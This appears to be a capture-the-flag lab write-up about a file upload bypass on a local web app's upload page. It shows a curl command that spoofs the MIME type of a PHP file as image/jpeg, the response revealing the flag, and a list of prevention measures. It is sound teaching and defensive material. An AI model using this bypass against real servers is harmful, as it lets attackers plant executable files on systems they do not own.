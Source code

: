 # Overview

This document outlines the impact and prevention of a security breach involving file upload bypass vulnerabilities. Such vulnerabilities allow attackers to upload malicious files to a system, potentially leading to unauthorized access or control.

## Discovery

### How It's Usually Found

File upload vulnerabilities are typically discovered through security audits, penetration testing, and the use of automated scanning tools designed to identify security weaknesses in web applications.

### How I Discovered It

In the case of the `?page=upload` page, the vulnerability was discovered while attempting to upload different types of files. Initially, a `.php` file upload was attempted, resulting in a failure message. 

Then, using the command line, I executed a curl request to upload a file with a PHP extension, but modified the MIME type to `image/jpeg` to bypass the file upload validation:

```
curl -X POST -F "Upload=Upload" -F "uploaded=@file.php;type=image/jpeg" "http://127.0.0.1:8080/index.php?page=upload" | grep 'The flag is :'
```

The response indicated that the file was successfully uploaded, and the flag was retrieved, demonstrating the exploitation of the file upload vulnerability:

```
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3030    0  2739  100   291    544     57  0:00:05  0:00:05 --:--:--   719
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/file.php succesfully uploaded.</pre>
```

## Prevention

To prevent file upload vulnerabilities, consider the following measures:

1. **Validate File Formats and Extensions**: Implement server-side validation to ensure only files with approved extensions are uploaded. Avoid relying solely on client-side validation.

2. **Use File Upload Validation Frameworks**: Employ trusted frameworks specifically designed for secure file upload validation to cover all potential exploitation vectors.

3. **Enforce File Name Restrictions**: Sanitize uploaded file names to remove dangerous characters and prevent injection attacks. Renaming files upon upload can also mitigate directory traversal vulnerabilities.

4. **Limit File Size**: Set a maximum file size and number of files that can be uploaded to prevent denial-of-service attacks through resource exhaustion.

5. **Content-Type Verification**: Ensure that the MIME type of uploaded files matches expected types for the allowed extensions, adding an additional layer of validation.

## Additional Resources

For more information on mitigating file upload vulnerabilities, the following resources may be helpful:

- [OWASP Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [Secure File Upload in Web Applications](https://www.acunetix.com/blog/articles/complete-guide-file-upload-vulnerabilities/)